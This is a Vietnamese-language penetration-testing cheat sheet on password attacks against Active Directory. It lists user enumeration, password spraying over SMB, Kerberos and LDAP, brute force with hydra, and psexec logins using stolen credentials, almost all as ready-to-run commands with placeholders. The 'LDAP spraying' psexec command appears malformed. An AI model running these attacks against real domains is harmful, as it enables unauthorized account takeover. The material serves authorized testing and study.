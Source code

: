 # Password Attacks

## Điểm chính khai thác

* Lỗ hổng: Tài khoản AD với mật khẩu yếu/phổ biến hoặc bị rò rỉ, không có cơ chế khóa tài khoản chặt chẽ.
* Tác động: Đăng nhập thành công vào tài khoản người dùng hoặc dịch vụ, dẫn đến truy cập trái phép.
* Điều kiện khai thác:
  * Truy cập đến các cổng như LDAP (389/tcp, 636/tcp), SMB (445/tcp), hoặc Kerberos (88/UDP).
  * Tài khoản domain hợp lệ (user bình thường) để thử nghiệm.
  * Mật khẩu yếu, mặc định, hoặc đã bị rò rỉ từ các nguồn khác.

## Kiểm tra lỗ hổng

### Kiểm tra cổng khả dụng

Xác định các cổng liên quan đến xác thực AD:

```
nmap -p 389,445,88 <dc_ip>
```

### Liệt kê tài khoản

Thu thập danh sách tài khoản để tấn công:

```
rpcclient -U "" <dc_ip> -N -c "enumdomusers"
```

## Tấn công từ xa

### Password Spraying qua LDAP

Thử các mật khẩu phổ biến trên nhiều tài khoản qua LDAP:

{% code overflow="wrap" %}

```
impacket-psexec -dc-ip <dc_ip> -usersfile <users_file> -password <common_pass> <domain>/
```

{% endcode %}

### Password Spraying qua SMB

Thử mật khẩu qua SMB với công cụ crackmapexec:

{% code overflow="wrap" %}

```
crackmapexec smb <dc_ip> -u <users_file> -p <common_pass> -d <domain> --continue-on-success
```

{% endcode %}

### Password Spraying qua Kerberos

Thử mật khẩu qua Kerberos với yêu cầu AS-REQ:

{% code overflow="wrap" %}

```
kerbrute passwordspray -d <domain> --dc <dc_ip> <users_file> <common_pass>
```

{% endcode %}

### Brute Force qua LDAP

Thử danh sách mật khẩu lớn trên một tài khoản qua LDAP:

```
hydra -l <username> -P <password_file> ldap://<dc_ip>
```

### Stolen Credentials qua LDAP

Sử dụng thông tin tài khoản rò rỉ để đăng nhập:

```
impacket-psexec <domain>/<stolen_user>:<stolen_pass>@<dc_ip>
```

## Tấn công nội bộ

### Password Spraying qua Kerberos

Thử mật khẩu qua Kerberos từ máy trong domain:

```
Rubeus.exe spray /password:<common_pass> /usersfile:<users_file> /domain:<domain>
```

## Kiểm tra kết quả

### Lệnh

Kiểm tra kết nối thành công sau khi đăng nhập:

```
whoami
```

### Xác nhận

Xác minh quyền truy cập với shell:

```
impacket-psexec <domain>/<user>:<pass>@<dc_ip>
```
